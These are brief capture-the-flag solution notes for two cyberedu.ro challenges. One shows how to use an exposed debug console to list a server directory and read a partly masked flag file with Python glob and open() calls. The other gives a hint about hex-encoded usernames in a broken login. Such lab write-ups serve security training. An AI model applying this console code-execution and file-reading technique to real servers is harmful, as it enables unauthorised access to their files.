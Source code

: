 # CyberCTF

cyberedu.ro

* Slightly-broken
  * URL: https://app.cyberedu.ro/challenges/a29f2dc0-9502-11ea-b94c-cf34503f201a/
  * Solution
    1. Remove all getflag input variables
    2. Run the console on the getflag
    3. Import glob
    4. print(glob.glob("/home/ecsc/*")) >> ['/home/ecsc/app.py', '/home/ecsc/flag.txt']
    5. print(open('flag.txt', 'r').read()) >> ECSC{672**************************}
* broken-login
  * URL: https://app.cyberedu.ro/challenges/62bee6e0-356c-11eb-a033-199a06b529d6/
  * Solution
   * FIND: username is ASCII converted to hex
